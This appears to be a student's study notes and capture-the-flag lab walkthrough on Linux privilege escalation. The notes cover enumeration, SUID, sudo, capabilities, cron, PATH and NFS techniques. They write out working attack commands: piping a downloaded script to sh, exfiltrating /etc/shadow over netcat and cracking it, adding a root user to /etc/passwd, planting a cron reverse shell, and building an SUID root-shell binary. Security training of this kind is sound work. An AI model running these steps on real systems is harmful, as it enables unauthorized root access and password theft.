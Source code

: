 Priv Esc? The exploitation of vulns, design flaws, or configurations in an OS or desktop app to gain unauthorized acces to resources usually restricted from users.
- Reset passwords
- Bypass access control to data
- Edit software configs
- Enable persistent access
- Change user permissions
- Execute admin commands

# Enumeration
[[hostname]]
[[uname]]
[[_proc_version]]
[[_etc_issue]]
[[ps]]
[[env]]
[[sudo]]
[[ls]]
[[id]]
[[_etc_passwd]]
[[history]]
[[ifconfig]] + [[ip]]
[[netstat]]
[[Linux/find]]
[[python]]

# Automated Enumeration
Dependent of environment, ie. Python not available on target system
-   **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
  `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`
-   **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
-   **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
-   **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
-   **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

# Kernel Exploits
1. Identify kernel version
2. Search for exploit code for the kernel version
3. Configure/run the exploit
Careful, as some exploits can crash the kernel
https://www.linuxkernelcves.com/cves
Ex. 
1. `uname -r`, get kernel version
2. find appropriate CVE and exploit (CVE-2015-1328), and figure out language used
3. get file to remote host, move to a writeable directory
	1. `nc -lvnp PORT < exploit.c` -- `nc IP PORT > exploit.c`
4. follow exploit instructions (compile c and then run w/ `gcc exploit.c -o exploit` -- `./exploit.c`)

# Sudo
run a `sudo -l` to see all commands with delegated sudo privileges
[https://gtfobins.github.io/](https://gtfobins.github.io/) info on how programs with sudo rights can be leveraged

Application Functions ex. Apache server allows for `apache2 -f ...` to specify a config file, this will spit out an error of the first line of a file if its invalid, like /etc/shadow

### LD Preload
1. check for LD_PRELOAD (w/ env_keep option) `env_keep+=LD_PRELOAD`
2. Write C shell code compiled into a share object (.so extension) [[LD_PRELOAD]]
3. Run program with sudo rights and point LD_PRELOAD to the .so file


`sudo nmap --interactive` ?? apparently gives a shell


# SUID
find SUID executable files with `find / -type f -perm 4000 2>/dev/null`   then compare those executables against GTFOBins: https://gtfobins.github.io

ex. no exploit bin available but nano has SUID set
1. nano to copy passwd and shadow files
2. use `unshadow passwd.txt shadow.txt > passwords.txt`
3. upload with a wordlist to John the Ripper
OR
1. Generate a password with [[openssl]] `openssl passwd -1 -salt SALT PASS`
2. using nano, add new user to [[_etc_passwd]] with the password, give root membership
3. `su` to newly created user

Practical ex (given ssh login, low priv): 
0. hardmode it by running nmap, then brute forcing passwords with `hydra` 
1. ssh into karen's account, run `id` to get a sense of privileges
2. Based on the box, I run a `find -perm -4000...` for files that have SUID bit set (could also try `sudo -l` for other commands)
	1. Results are then checked against GTFOBins to look for an exploitable program (use SUID filter)
	2. (optional) overlook options because they don't seem sus
	3. find `base64` on GTFOBins, this will read out any file into base64, also has a --decode option 
3. `base64 /etc/shadow | base64 -d > shadow.txt` to write out, and then decode the shadow file (make sure you're in a writeable dir)
4. `nc ... < shadow.txt` to a listener to transfer files to local machine (send over `/etc/passwd `too) 
5. `unshadow PASSWD SHADOW` to get files into a format for John da Ripper to read
6. `john COMBINED_FILE` then spits out any found hashes (can also specify `--wordlist`, but the default works here)


# Capabilities
use `getcap / -r 2>/dev/null` to get a list of programs with a capabilities set. A capability being a delegated function of a binary / process that doesn't need to ask for a higher privilege user. 
Reference these results against GTFOBins to find attack vectors
ex. 
using a Vim `cap_setuid+ep` capability we can set our UID to root with the script listed on GTFOBins

  
# Cron Jobs
Scripts / binaries can be scheduled to run at specified times, they will run with privileges of owner (hopefully root), not of the current user
Stored in: `/etc/crontabs`
Often admins will create a cronjob for a script, eventually delete it, but never remove the cronjob, allowing us to create a custom script in its absence
Example:
1. `cat /etc/crontabs` to see potential cron jobs
2. 4 jobs are built to run every minute, 3 bash, 1 python
	-  Went down a rabbit hole trying to get a bash shell to work through the .sh files
3. find out which files might be accessible/writable, and see that the `test.py` script is non-existent
4. Create a `/tmp/test.py` script with python reverse shell from github [[Payloads]]
	 -  run into a bunch of issues getting it to run. Try debugging by check `which` on program calls needed, run the same command from terminal and see if it connects (to a listener), then try running the script with the current user and see if it connects
5. Run a listener and wait for the connection


# PATH
$PATH is an environment variable that tells Linux where to search for executables that are not built into the shell or defined with an absolute path.
`echo $PATH`  
- Look for write privileges to folders in $PATH
- is $PATH itself modifiable?
- are there existing scripts that can be leveraged to run a binary?
Example:
1. I search the system `find -perm -4000 ...` for any files that have a SUID bit set. I see `/home/murdoch`, which is also a writable directory 
2. In there we find a compiled file `test` and its originating, uncompiled version `thm.py`. With `cat thm.py` we see that it's trying to run a command called 'thm'.
3. I add this writable dir to the $PATH with `export PATH=$PATH=/home/murdoch`
4. In the same dir, (since its writable and now in PATH) I add a bash script named `thm` that cat's the flag file and `chmod 777 thm`.
5. I run the `test` file which has SUID bit set, and it accesses my injected `thm` command, now running as root and am able to cat the flag

  
# NFS
Network File Sharing config is viewable in `/etc/exports`. Often share folders and remote management tools like SSH and Telnet can be leveraged for root.
(by default NFS will strip all permissions on files and drop user to "nfsnobody")  
`cat /etc/exports` if the `no_root_squash` option is added on a writable share, then we can create an executable with SUID set.
`showmount -e TARGET` to list share folders on the target (from local)
`mount -o rw TARGET:/SHARE_DIR /MY_DIR` to copy over the share to local
Example:
1. search system for exportable shares with `cat /etc/exports`   
2. Notice that they all have `no_root_squash` set. Look into each to find which is executable from, tried /tmp as this is usually an accessible dir, which proved right
3. back on local `showmount` and then create a `/tmp/backups` dir to copy over the share with `mount -o rw TARGET:/tmp /tmp/backups`
4. Create a executable here that sets as root and opens a shell, (see [[gcc]]) then `gcc test.c -o test -w`
5. `chmod 4700 test` to grant it SUID bit so that any user can run it on the target system
6. See that the file has been copied over to target, run it as normal user, then get root shell :)


# Capstone
1. No obvious exploits for kernel version (`uname -a` + web search), no Cron Job(`/etc/crontab`), no NFS (`/etc/exports`), nothing apparent in PATH (did search these for a bit, but should've just ran a SUID search first to avoid the rabbit hole), and no sudo on user `leonard`.
2. `bash -li` and saw there was history, got a clue from this seeing as user `missy` was accessed recently
3. ran a `find -perm -4000` and saw SUID was set on Base64 (again)
4. used `base64` to read and send `/etc/shadow` to my local with nc, along with `/etc/passwd`. Fed to Johnny who got me the password for missy
5. got the first flag from missy `/home/Documents` directory
	-  also skipped part 2 by just base64'ing out flag2.txt from `/home/rootflag.txt`
6. ran a `sudo -l` for missy and saw she had sudo on `find`
7. compared this to GTFOBins which gave a script to get root shell through` find`
8. activated root shell and ran a find on `flag2.txt`, got flag